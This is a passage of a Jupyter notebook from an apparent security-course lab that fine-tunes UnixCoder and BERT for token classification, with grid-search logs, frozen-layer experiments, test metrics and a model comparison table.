# --- Load pre-trained UnixCoder model ---
unixcoder_model = AutoModelForTokenClassification.from_pretrained(
    UNIXCODER_MODEL,
    id2label=id2label,
    label2id=label2id,
)

total_params = sum(p.numel() for p in unixcoder_model.parameters())
print(f"UnixCoder Model:")
print(f"  Total parameters: {total_params:,}")

pytorch_model.bin:   0%|          | 0.00/504M [00:00<?, ?B/s]

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                     | Status     | 
------------------------+------------+-
embeddings.position_ids | UNEXPECTED | 
pooler.dense.weight     | UNEXPECTED | 
pooler.dense.bias       | UNEXPECTED | 
classifier.weight       | MISSING    | 
classifier.bias         | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


UnixCoder Model:
  Total parameters: 125,344,519


In [84]:
# --- Macro-F1-aware lightweight grid search setup for UnixCoder ---
UNIX_GRID_SEARCH = {
    'learning_rates': [9e-6, 1e-5, 3e-5],
    'epochs': [40],
    'max_trials': 3,
}

def build_unixcoder_model():
    return AutoModelForTokenClassification.from_pretrained(
        UNIXCODER_MODEL,
        id2label=id2label,
        label2id=label2id,
    )

print("UnixCoder grid search space:")
print(UNIX_GRID_SEARCH)

UnixCoder grid search space:
{'learning_rates': [9e-06, 1e-05, 3e-05], 'epochs': [40], 'max_trials': 3}


In [85]:
# --- Train UnixCoder model with macro-F1-aware selection ---
_t0 = time.time()
unix_best_entry, unix_grid_df = run_lightweight_grid_search(
    model_builder=build_unixcoder_model,
    train_dataloader=unix_train_dataloader,
    eval_dataloader=unix_eval_dataloader,
    learning_rates=UNIX_GRID_SEARCH['learning_rates'],
    epoch_candidates=UNIX_GRID_SEARCH['epochs'],
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="UnixCoder",
    trainable_only=False,
    max_trials=UNIX_GRID_SEARCH['max_trials'],
)
unix_train_time = time.time() - _t0

unix_best_model = unix_best_entry['best_model']
unix_train_losses = unix_best_entry['train_losses']
unix_val_losses = unix_best_entry['val_losses']
unix_best_epoch = unix_best_entry['best_epoch']
UNIX_LR = unix_best_entry['learning_rate']
UNIX_EPOCHS = unix_best_entry['epochs']

unix_grid_results_path = os.path.join(results_path, 'unixcoder_grid_search_results.csv')
unix_grid_df.to_csv(unix_grid_results_path, index=False)
print(f"Saved UnixCoder grid search table: {unix_grid_results_path}")
print(f"\nSelected UnixCoder config -> lr={UNIX_LR}, epochs={UNIX_EPOCHS}, best_epoch={unix_best_epoch}")
print(f"Total UnixCoder grid search time: {unix_train_time:.1f}s")


--- Grid Trial 1: UnixCoder | lr=9e-06 | epochs=40 ---


model.safetensors:   0%|          | 0.00/504M [00:00<?, ?B/s]

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                     | Status     | 
------------------------+------------+-
embeddings.position_ids | UNEXPECTED | 
pooler.dense.weight     | UNEXPECTED | 
pooler.dense.bias       | UNEXPECTED | 
classifier.weight       | MISSING    | 
classifier.bias         | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


Training UnixCoder | lr=9e-06 | epochs=40:   0%|          | 0/520 [00:00<?, ?it/s]

...

RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                     | Status     | 
------------------------+------------+-
embeddings.position_ids | UNEXPECTED | 
pooler.dense.weight     | UNEXPECTED | 
pooler.dense.bias       | UNEXPECTED | 
classifier.weight       | MISSING    | 
classifier.bias         | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


Training UnixCoder | lr=3e-05 | epochs=40:   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 0: acc=0.7527, f1=0.3257, val_loss=0.7166
Epoch 1: acc=0.7859, f1=0.3616, val_loss=0.5467
Epoch 2: acc=0.8228, f1=0.4002, val_loss=0.4756
Epoch 3: acc=0.8348, f1=0.4828, val_loss=0.4158
Epoch 4: acc=0.8522, f1=0.5280, val_loss=0.3782
Epoch 5: acc=0.8592, f1=0.5475, val_loss=0.3456
Epoch 6: acc=0.8647, f1=0.5673, val_loss=0.4116
Epoch 7: acc=0.8658, f1=0.5759, val_loss=0.3133
Epoch 8: acc=0.8652, f1=0.5646, val_loss=0.3154
Epoch 9: acc=0.8658, f1=0.5778, val_loss=0.3550
Epoch 10: acc=0.8717, f1=0.5894, val_loss=0.3284
Epoch 11: acc=0.8739, f1=0.5951, val_loss=0.3060
Epoch 12: acc=0.8701, f1=0.5938, val_loss=0.3880
Epoch 13: acc=0.8641, f1=0.5925, val_loss=0.4884
Epoch 14: acc=0.8663, f1=0.5531, val_loss=0.3362
Epoch 15: acc=0.8685, f1=0.6113, val_loss=0.4309
Epoch 16: acc=0.8690, f1=0.6084, val_loss=0.3950
Epoch 17: acc=0.8647, f1=0.5915, val_loss=0.3856
Epoch 18: acc=0.8696, f1=0.5927, val_loss=0.3765
Epoch 19: acc=0.8707, f1=0.6036, val_loss=0.3930
Epoch 20: acc=0.8658, f1=0.586

Evaluating UnixCoder | lr=3e-05 | epochs=40 [Validation]:   0%|          | 0/4 [00:00<?, ?it/s]


UnixCoder | lr=3e-05 | epochs=40 [Validation] Test Results:
Token Accuracy:   87.39%
Token Precision:  69.11%
Token Recall:     57.28%
Token F1 (Macro):  59.51%
Session Fidelity:  75.47%

UnixCoder grid-search summary (sorted):
 learning_rate  epochs  best_epoch  val_macro_f1  val_loss
      0.000010      40          24      0.670832  0.396981
      0.000009      40          33      0.636518  0.511282
      0.000030      40          11      0.595141  0.306038

Selected config for UnixCoder: lr=1e-05, epochs=40, best_epoch=24, val_macro_f1=0.6708, val_loss=0.3970
Saved UnixCoder grid search table: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/unixcoder_grid_search_results.csv

Selected UnixCoder config -> lr=1e-05, epochs=40, best_epoch=24
Total UnixCoder grid search time: 1768.1s


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_losses.png




In [86]:
# --- Plot UnixCoder training progress ---
plot_training_stats("UnixCoder", unix_train_losses, unix_val_losses, unix_best_epoch, save_path=save_dir)

In [87]:
# --- Evaluate UnixCoder model on test set ---
unix_results = evaluate_model(
    model=unix_best_model,
    test_dataloader=unix_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="UnixCoder"
)

Evaluating UnixCoder:   0%|          | 0/7 [00:00<?, ?it/s]


UnixCoder Test Results:
Token Accuracy:   90.66%
Token Precision:  87.26%
Token Recall:     67.37%
Token F1 (Macro):  74.28%
Session Fidelity:  85.52%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_per_class_f1.png




In [88]:
# --- Plot per-class F1 scores for UnixCoder ---
plot_per_class_f1(unix_results['per_class_f1'], "UnixCoder", save_path=save_dir)

### 3.4 Frozen Layer Experiment

**Instructions:**
- Take the best model from previous steps.
- Fine-tune *only* the last 2 encoding layers + classification head (freeze the rest).
- Compare training speed, parameter count, and performance loss vs. full fine-tuning.

**Q:** How does freezing layers affect training efficiency and final performance?

*Your analysis here*

In [89]:
# --- Load fresh UnixCoder model for frozen layer experiment ---
unix_frozen_model = AutoModelForTokenClassification.from_pretrained(
    UNIXCODER_MODEL,
    id2label=id2label,
    label2id=label2id,
)

# Freeze all layers in base model
for param in unix_frozen_model.base_model.parameters():
    param.requires_grad = False

# Unfreeze the last 2 encoder layers
for param in unix_frozen_model.base_model.encoder.layer[-2:].parameters():
    param.requires_grad = True

# Classification head is always trainable
for param in unix_frozen_model.classifier.parameters():
    param.requires_grad = True

# Count parameters
total_params = sum(p.numel() for p in unix_frozen_model.parameters())
trainable_params = sum(p.numel() for p in unix_frozen_model.parameters() if p.requires_grad)
frozen_params = total_params - trainable_params

print("UnixCoder Frozen Model (Last2+Head):")
print(f"  Total parameters: {total_params:,}")
print(f"  Trainable parameters: {trainable_params:,}")
print(f"  Frozen parameters: {frozen_params:,}")
print(f"  Trainable ratio: {trainable_params/total_params*100:.2f}%")


Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                     | Status     | 
------------------------+------------+-
embeddings.position_ids | UNEXPECTED | 
pooler.dense.weight     | UNEXPECTED | 
pooler.dense.bias       | UNEXPECTED | 
classifier.weight       | MISSING    | 
classifier.bias         | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


UnixCoder Frozen Model (Last2+Head):
  Total parameters: 125,344,519
  Trainable parameters: 14,181,127
  Frozen parameters: 111,163,392
  Trainable ratio: 11.31%


In [90]:
# --- Show which layers are trainable (frozen UnixCoder) ---
print("Trainable layers:")
for name, param in unix_frozen_model.named_parameters():
    if param.requires_grad:
        print(f"  {name}")


Trainable layers:
  roberta.encoder.layer.10.attention.self.query.weight
  roberta.encoder.layer.10.attention.self.query.bias
  roberta.encoder.layer.10.attention.self.key.weight
  roberta.encoder.layer.10.attention.self.key.bias
  roberta.encoder.layer.10.attention.self.value.weight
  roberta.encoder.layer.10.attention.self.value.bias
  roberta.encoder.layer.10.attention.output.dense.weight
  roberta.encoder.layer.10.attention.output.dense.bias
  roberta.encoder.layer.10.attention.output.LayerNorm.weight
  roberta.encoder.layer.10.attention.output.LayerNorm.bias
  roberta.encoder.layer.10.intermediate.dense.weight
  roberta.encoder.layer.10.intermediate.dense.bias
  roberta.encoder.layer.10.output.dense.weight
  roberta.encoder.layer.10.output.dense.bias
  roberta.encoder.layer.10.output.LayerNorm.weight
  roberta.encoder.layer.10.output.LayerNorm.bias
  roberta.encoder.layer.11.attention.self.query.weight
  roberta.encoder.layer.11.attention.self.query.bias
  roberta.encoder.layer.11

In [91]:
# --- Training configuration for Frozen UnixCoder (Last2+Head) ---
# Higher LR is viable because only a subset of parameters is trainable
FROZEN_LR = 4e-5
FROZEN_EPOCHS = 40

frozen_optimizer = AdamW(filter(lambda p: p.requires_grad, unix_frozen_model.parameters()), lr=FROZEN_LR)

num_training_steps = FROZEN_EPOCHS * len(unix_train_dataloader)
frozen_lr_scheduler = get_scheduler(
    "linear",
    optimizer=frozen_optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)


In [92]:
# --- Train Frozen UnixCoder model ---
frozen_best_model, frozen_train_losses, frozen_val_losses, frozen_best_epoch, frozen_time = train_model(
    model=unix_frozen_model,
    train_dataloader=unix_train_dataloader,
    eval_dataloader=unix_eval_dataloader,
    optimizer=frozen_optimizer,
    lr_scheduler=frozen_lr_scheduler,
    n_epochs=FROZEN_EPOCHS,
    device=device,
    id2label=id2label,
    model_name="UnixCoder Frozen (Last2+Head)"
)

print(f"\nBest epoch: {frozen_best_epoch}")
print(f"\nTraining time: {frozen_time:.2f}s")

Training UnixCoder Frozen (Last2+Head):   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 0: acc=0.6984, f1=0.2239, val_loss=0.9525
Epoch 1: acc=0.7424, f1=0.2957, val_loss=0.6939
Epoch 2: acc=0.7543, f1=0.3283, val_loss=0.6559
Epoch 3: acc=0.7723, f1=0.3687, val_loss=0.6360
Epoch 4: acc=0.7897, f1=0.3953, val_loss=0.6129
Epoch 5: acc=0.7897, f1=0.3931, val_loss=0.5886
Epoch 6: acc=0.8000, f1=0.4160, val_loss=0.5932
Epoch 7: acc=0.8109, f1=0.4281, val_loss=0.5896
Epoch 8: acc=0.8136, f1=0.4493, val_loss=0.5821
Epoch 9: acc=0.8114, f1=0.4659, val_loss=0.6143
Epoch 10: acc=0.8223, f1=0.4685, val_loss=0.6769
Epoch 11: acc=0.8087, f1=0.4640, val_loss=0.6268
Epoch 12: acc=0.8033, f1=0.4623, val_loss=0.6179
Epoch 13: acc=0.8212, f1=0.4733, val_loss=0.5567
Epoch 14: acc=0.8147, f1=0.4929, val_loss=0.5679
Epoch 15: acc=0.8375, f1=0.5359, val_loss=0.6126
Epoch 16: acc=0.8457, f1=0.5450, val_loss=0.5760
Epoch 17: acc=0.8429, f1=0.5528, val_loss=0.6419
Epoch 18: acc=0.8408, f1=0.5301, val_loss=0.5817
Epoch 19: acc=0.8413, f1=0.5543, val_loss=0.5646
Epoch 20: acc=0.8446, f1=0.556

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(last2+head)_losses.png




In [93]:
# --- Plot Frozen UnixCoder training progress ---
plot_training_stats("UnixCoder Frozen (Last2+Head)", frozen_train_losses, frozen_val_losses, frozen_best_epoch, save_path=save_dir)


In [94]:
# --- Evaluate Frozen UnixCoder model on test set ---
frozen_results = evaluate_model(
    model=frozen_best_model,
    test_dataloader=unix_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="UnixCoder Frozen (Last2+Head)"
)


Evaluating UnixCoder Frozen (Last2+Head):   0%|          | 0/7 [00:00<?, ?it/s]


UnixCoder Frozen (Last2+Head) Test Results:
Token Accuracy:   88.30%
Token Precision:  82.48%
Token Recall:     65.20%
Token F1 (Macro):  70.92%
Session Fidelity:  81.79%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(last2+head)_per_class_f1.png




In [95]:
# --- Plot per-class F1 scores for UnixCoder Frozen (Last2+Head) ---
plot_per_class_f1(frozen_results['per_class_f1'], "UnixCoder Frozen (Last2+Head)", save_path=save_dir)

### 3.5 UnixCoder Frozen — Solo Classification Head

**Configurazione:** Tutti i layer dell'encoder sono congelati. Solo la classification head (un singolo layer lineare) viene allenata.

**Q:** Quanti parametri vengono allenati? Il training è più veloce? Quanto si perde in performance rispetto al full fine-tuning e al Last2+Head?

In [96]:
# --- Load UnixCoder and freeze ALL layers except the classification head ---
unix_headonly_model = AutoModelForTokenClassification.from_pretrained(
    UNIXCODER_MODEL,
    id2label=id2label,
    label2id=label2id,
)

# Step 1: Freeze everything
for param in unix_headonly_model.parameters():
    param.requires_grad = False

# Step 2: Unfreeze ONLY the classification head
for param in unix_headonly_model.classifier.parameters():
    param.requires_grad = True

# Count parameters
total_params     = sum(p.numel() for p in unix_headonly_model.parameters())
trainable_params = sum(p.numel() for p in unix_headonly_model.parameters() if p.requires_grad)
frozen_params    = total_params - trainable_params

print("UnixCoder Frozen (Head Only):")
print(f"  Total parameters:     {total_params:,}")
print(f"  Trainable parameters: {trainable_params:,}")
print(f"  Frozen parameters:    {frozen_params:,}")
print(f"  Trainable ratio:      {trainable_params/total_params*100:.4f}%")

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                     | Status     | 
------------------------+------------+-
embeddings.position_ids | UNEXPECTED | 
pooler.dense.weight     | UNEXPECTED | 
pooler.dense.bias       | UNEXPECTED | 
classifier.weight       | MISSING    | 
classifier.bias         | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


UnixCoder Frozen (Head Only):
  Total parameters:     125,344,519
  Trainable parameters: 5,383
  Frozen parameters:    125,339,136
  Trainable ratio:      0.0043%


In [97]:
# --- Which layers are trainable? ---
print("Trainable layers (head only):")
for name, param in unix_headonly_model.named_parameters():
    if param.requires_grad:
        print(f"  {name}  →  {param.numel():,} params")

Trainable layers (head only):
  classifier.weight  →  5,376 params
  classifier.bias  →  7 params


In [98]:
# --- Training config for Head Only ---
HEADONLY_LR     = 1e-3
HEADONLY_EPOCHS = 40

headonly_optimizer = AdamW(
    filter(lambda p: p.requires_grad, unix_headonly_model.parameters()),
    lr=HEADONLY_LR
)

num_training_steps = HEADONLY_EPOCHS * len(unix_train_dataloader)
headonly_lr_scheduler = get_scheduler(
    "linear",
    optimizer=headonly_optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)

# --- Train ---
headonly_best_model, headonly_train_losses, headonly_val_losses, headonly_best_epoch, headonly_time = train_model(
    model=unix_headonly_model,
    train_dataloader=unix_train_dataloader,
    eval_dataloader=unix_eval_dataloader,
    optimizer=headonly_optimizer,
    lr_scheduler=headonly_lr_scheduler,
    n_epochs=HEADONLY_EPOCHS,
    device=device,
    id2label=id2label,
    model_name="UnixCoder Frozen (Head Only)"
)

print(f"\nBest epoch:    {headonly_best_epoch}")
print(f"\nTraining time: {headonly_time:.2f}s")

Training UnixCoder Frozen (Head Only):   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 0: acc=0.7429, f1=0.3090, val_loss=0.8859
Epoch 1: acc=0.7500, f1=0.3186, val_loss=0.7663
Epoch 2: acc=0.7397, f1=0.3527, val_loss=0.7118
Epoch 3: acc=0.7630, f1=0.4260, val_loss=0.7085
Epoch 4: acc=0.7728, f1=0.3866, val_loss=0.6776
Epoch 5: acc=0.7745, f1=0.4317, val_loss=0.6491
Epoch 6: acc=0.7897, f1=0.4900, val_loss=0.6004
Epoch 7: acc=0.7918, f1=0.5053, val_loss=0.5953
Epoch 8: acc=0.7978, f1=0.4941, val_loss=0.6075
Epoch 9: acc=0.7935, f1=0.5462, val_loss=0.6353
Epoch 10: acc=0.7935, f1=0.5143, val_loss=0.5806
Epoch 11: acc=0.7967, f1=0.5440, val_loss=0.5680
Epoch 12: acc=0.7984, f1=0.5632, val_loss=0.5681
Epoch 13: acc=0.8098, f1=0.5826, val_loss=0.5288
Epoch 14: acc=0.8092, f1=0.5976, val_loss=0.5617
Epoch 15: acc=0.8033, f1=0.5632, val_loss=0.5422
Epoch 16: acc=0.8043, f1=0.5871, val_loss=0.5640
Epoch 17: acc=0.8054, f1=0.5887, val_loss=0.5797
Epoch 18: acc=0.8082, f1=0.6068, val_loss=0.6037
Epoch 19: acc=0.8065, f1=0.5804, val_loss=0.5672
Epoch 20: acc=0.8071, f1=0.596

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(head_only)_losses.png




In [99]:
# --- Plot training progress ---
plot_training_stats(
    "UnixCoder Frozen (Head Only)",
    headonly_train_losses,
    headonly_val_losses,
    headonly_best_epoch,
    save_path=save_dir
)

In [100]:
# --- Evaluate on test set ---
headonly_results = evaluate_model(
    model=headonly_best_model,
    test_dataloader=unix_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="UnixCoder Frozen (Head Only)"
)

Evaluating UnixCoder Frozen (Head Only):   0%|          | 0/7 [00:00<?, ?it/s]


UnixCoder Frozen (Head Only) Test Results:
Token Accuracy:   79.16%
Token Precision:  68.47%
Token Recall:     48.89%
Token F1 (Macro):  53.03%
Session Fidelity:  73.80%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(head_only)_per_class_f1.png




In [101]:
# --- Plot per-class F1 scores for UnixCoder Frozen (Head Only) ---
plot_per_class_f1(headonly_results['per_class_f1'], "UnixCoder Frozen (Head Only)", save_path=save_dir)

### 3.6 Compare models

In [102]:
# --- Compare all models ---
print("\n" + "=" * 90)
print("MODEL COMPARISON SUMMARY")
print("=" * 90)

comparison_data = {
    'Model': [
        'BERT Pretrained',
        'Naked BERT',
        'UnixCoder',
        'UnixCoder Frozen (Last2+Head)',
        'UnixCoder Frozen (Head Only)',
    ],
    'Accuracy': [
        bert_results['metrics']['token_accuracy']*100,
        naked_bert_results['metrics']['token_accuracy']*100,
        unix_results['metrics']['token_accuracy']*100,
        frozen_results['metrics']['token_accuracy']*100,
        headonly_results['metrics']['token_accuracy']*100,
    ],
    'F1 (Macro)': [
        bert_results['metrics']['token_f1']*100,
        naked_bert_results['metrics']['token_f1']*100,
        unix_results['metrics']['token_f1']*100,
        frozen_results['metrics']['token_f1']*100,
        headonly_results['metrics']['token_f1']*100,
    ],
    'Session Fidelity': [
        bert_results['session_fidelity']*100,
        naked_bert_results['session_fidelity']*100,
        unix_results['session_fidelity']*100,
        frozen_results['session_fidelity']*100,
        headonly_results['session_fidelity']*100,
    ],
    'Training Time (s)': [
        bert_train_time,
        naked_bert_train_time,
        unix_train_time,
        frozen_time,
        headonly_time,
    ],
}

comparison_df = pd.DataFrame(comparison_data)
print(comparison_df.to_string(index=False))


MODEL COMPARISON SUMMARY
                        Model  Accuracy  F1 (Macro)  Session Fidelity  Training Time (s)
              BERT Pretrained 90.902873   72.643898         86.535285        1954.063414
                   Naked BERT 78.300274   54.958334         74.202827         658.193555
                    UnixCoder 90.661677   74.275422         85.515834        1768.116659
UnixCoder Frozen (Last2+Head) 88.297329   70.915346         81.788043         281.417834
 UnixCoder Frozen (Head Only) 79.163123   53.032016         73.796672         230.146824


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/model_comparison.png


